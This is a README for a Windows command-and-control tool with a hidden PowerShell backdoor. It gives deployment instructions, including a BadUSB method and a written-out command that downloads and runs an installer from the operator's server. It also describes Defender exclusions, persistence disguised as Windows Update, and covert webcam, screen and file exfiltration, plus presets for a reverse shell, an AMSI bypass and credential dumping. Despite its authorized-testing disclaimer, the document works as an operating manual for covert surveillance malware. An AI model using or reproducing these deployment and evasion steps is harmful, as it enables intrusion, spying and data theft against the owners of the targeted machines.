

# 🎯 C2 Framework – Remote Command & Control for Windows

[License: MIT] [Python 3.8+] [PowerShell 5.1+]

> **⚠️ WARNING:** This tool is intended for **authorized penetration testing, red team exercises, and educational purposes only**. Unauthorized access to computer systems is illegal. The author assumes no liability for misuse.

## 📖 Overview

The **C2 Framework** is a complete remote administration solution consisting of:

- A lightweight **Flask‑based C2 server** with a modern web dashboard.
- A **stealthy PowerShell backdoor** that connects to the server, executes commands, and returns output.
- An **installer** that deploys the backdoor with persistence and hides all windows.
- A **cleaner** to remove all traces after testing.

It enables operators to:
- Execute PowerShell commands remotely on Windows machines.
- Capture full‑screen screenshots (multi‑monitor aware).
- Stream live desktop video with mouse control.
- Access the webcam (via included `cam.exe` tool).
- Upload/download files and exfiltrate directories (ZIP).
- Change wallpaper, play sounds, display custom popup messages.
- Maintain persistence via Registry `Run` key or scheduled task – completely invisible.

---

## 🧱 Architecture

| Component | Technology | Purpose |
|-----------|------------|---------|
| `server.py` | Python + Flask | Hosts the web UI and REST API for command/result handling, file uploads, live streaming. |
| `backdoor.ps1` | PowerShell 5.1+ | Periodic command polling, execution, result exfiltration. Runs hidden via double‑nested `Start-Process`. |
| `installer.ps1` | PowerShell GUI | Downloads files, adds Defender exclusions, creates persistence, starts backdoor silently. |
| `cleaner.ps1` | PowerShell | Kills processes, deletes files, removes registry keys and scheduled tasks, restores Defender settings. |
| `cam.exe` | 3rd party (or custom) | Webcam capture utility – expected to save `image.jpg` in `%TEMP%`. |

---

## ✨ Features

### 🔹 Server (Flask)
- REST endpoints: `/command`, `/set_command`, `/result`, `/upload`, `/stream_upload`, `/latest_frame`, `/status`
- Web dashboard with six tabs: Terminal Output, Execute, File Ops, Exfiltrate, Media, Live View
- Real‑time status indicator (online/offline based on 30‑second heartbeat)
- Automatic folder creation: `uploads/`, `results/`, `media_uploads/`, `stream_frames/`

### 🔹 Backdoor (PowerShell)
- SSL certificate validation bypass (trust all)
- Loops every 10 seconds, fetches command, executes via `Invoke-Expression`
- Built‑in functions:
  - `Capture-Screenshot` – virtual screen capture (all monitors)
  - `Capture-Webcam` – runs `cam.exe` and uploads `image.jpg`
  - `Send-MouseClick {left|right|double}` – using C# `SendInput` for reliable clicks
  - `Start-ScreenStream` – background job sending JPEG frames every 2 seconds
- Logging to `C:\Users\Public\backdoor.log`

### 🔹 Installer
- Graphical progress bar (Windows Forms)
- Downloads `backdoor.ps1` and `cam.exe` from the C2 server
- Unblocks downloaded files
- Adds Defender exclusions for `C:\Users\Public` and `%TEMP%`
- Persistence: double‑hidden Registry `Run` key (no window flashes)
- Immediately starts the backdoor (hidden)

### 🔹 Cleaner
- Kills all PowerShell processes containing `backdoor.ps1` (via WMI)
- Deletes all installed files (`backdoor.ps1`, `installer.ps1`, `cam.exe`)
- Removes Registry Run keys from both `HKCU` and `HKLM`
- Unregisters scheduled task `WindowsUpdateService`
- Removes Defender exclusions

---



## 🚀 Getting Started

### Prerequisites (Server)
- Python 3.8+ with Flask: `pip install flask`
- Any OS that can run Python (Linux, Windows, macOS)

### Prerequisites (Target)
- Windows 10 / 11 / Server 2016+
- PowerShell 5.1 or later (usually pre‑installed)

### 1. Configure the Server
1. Place all files (`server.py`, `backdoor.ps1`, `installer.ps1`, `cleaner.ps1`, `cam.exe`) in the same directory.
2. Edit `backdoor.ps1` and `installer.ps1` – change the variable `$attacker` to your server’s IP (e.g., `192.168.1.53:8000`).
3. Run the server:
   ```bash
   python server.py
   ```
   The server listens on 0.0.0.0:8000 by default.
   

### 2. Deploy to the Target

Choose one of the following methods:

**Method A – Arduino BadUSB (fully automatic)**

- Upload `arduino.txt` (or the equivalent `.ino` file) to an Arduino Leonardo, Micro, or compatible board.
- Edit the IP address inside the sketch to match your server (`192.168.1.53`).
- Plug the Arduino into the target machine. It will wait 3 seconds, then inject all keystrokes to download and run the installer. No windows remain visible.

**Method B – Execute installer directly from PowerShell**

```powershell
powershell -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://<YOUR_SERVER_IP>:8000/installer.ps1')"
```

**Method C – Manual copy**

- Copy `installer.ps1` to the target and run:

```powershell
.\installer.ps1
```

The installer will download the necessary files, set up persistence, and start the backdoor – all with no visible windows.

### 3. Access the C2 Dashboard

Open a browser and navigate to:

```
http://<YOUR_SERVER_IP>:8000
```

You will see the main interface with the status indicator (green dot = backdoor online). Start sending commands!

### 4. Clean Up

After finishing the test, run this command on the target (as Administrator):

```powershell
powershell -ExecutionPolicy Bypass -File cleaner.ps1
```

---

## 🖥️ Dashboard Tabs Explained

| Tab                 | Description                                                                                                          |
| ------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **TERMINAL OUTPUT** | Shows command results and file upload notifications. Auto‑refresh.                                                   |
| **EXECUTE**         | Run arbitrary PowerShell commands or choose from presets (reverse shell, AMSI bypass, persistence, credential dump). |
| **FILE OPS**        | Create, append, delete, list, or read files on the target.                                                           |
| **EXFILTRATE**      | Upload a single file or ZIP a whole directory and send it to the C2 server.                                          |
| **MEDIA**           | Change wallpaper or play a sound on the target (upload your own media files).                                        |
| **LIVE VIEW**       | Start/stop screen streaming, take a screenshot, and control the mouse (click on the image to move the cursor).       |

---

## 📁 Project Structure

```
c2-framework/
├── server.py                # Flask C2 server
├── backdoor.ps1             # PowerShell backdoor
├── installer.ps1            # Deployment script with GUI
├── cleaner.ps1              # Removal/cleanup script
├── arduino.txt              # Arduino HID deployment payload
├── cam.exe                  # (supplied by user) webcam capture tool
├── uploads/                 # Exfiltrated files (auto‑created)
├── results/                 # Command output logs (auto‑created)
├── media_uploads/           # Wallpapers & sounds uploaded by attacker (auto‑created)
├── stream_frames/           # Live stream JPEG frames (auto‑created)
└── README.md                # This file
```

---

## 🔧 Troubleshooting

| Issue                                  | Solution                                                                                                                                                                                                                         |
| -------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **`POST /upload` returns 400**         | Ensure the backdoor uses `-ContentType 'application/octet-stream'` (already set in the provided scripts). Some old exfil commands in the dashboard use `multipart/form-data`; replace with `application/octet-stream` if needed. |
| **Backdoor does not survive reboot**   | Check the Registry key `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdate`. Re‑run the installer if missing.                                                                                                     |
| **PowerShell window flashes briefly**  | The double‑hidden launch prevents any window. If you see a flash, an older persistence entry may exist – run the cleaner and reinstall.                                                                                          |
| **Live stream shows no image**         | Verify that the backdoor’s `Start-ScreenStream` job is running (`Get-Job`). Confirm network connectivity to `/stream_upload`.                                                                                                    |
| **Webcam capture fails**               | Ensure `cam.exe` is present in `%TEMP%`. The script waits up to 10 seconds. Test by running `Capture-Webcam` manually in PowerShell.                                                                                             |
| **Arduino injection does nothing**     | Make sure the Arduino sketch was uploaded correctly, the board is recognized as a keyboard, and the delay at the start gives enough time for driver installation.                                                                |
| **Server does not serve `.ps1` files** | Flask serves all files from its current directory via the catch‑all route. Place the scripts in the same folder as `server.py`.                                                                                                  |

---

## ⚖️ Legal Disclaimer

This software is provided **solely for educational purposes and authorized security assessments** (e.g., penetration testing, red teaming on systems you own or have explicit permission to test). You are responsible for complying with all applicable laws. Misuse of this tool may result in criminal charges. The author disclaims any liability for malicious or illegal use.

---

## 🤝 Contributing

Contributions are welcome! Please open an issue or submit a pull request. Keep the project ethical and educational.

- **Report bugs** via GitHub Issues
- **Suggest features** – open a discussion
- **Improve documentation** – PRs accepted

---

## 📄 License

Distributed under the MIT License.

---

## 📬 Contact

For questions or recommendations, open an issue on this repository. Do **not** ask for help with illegal activities.

---
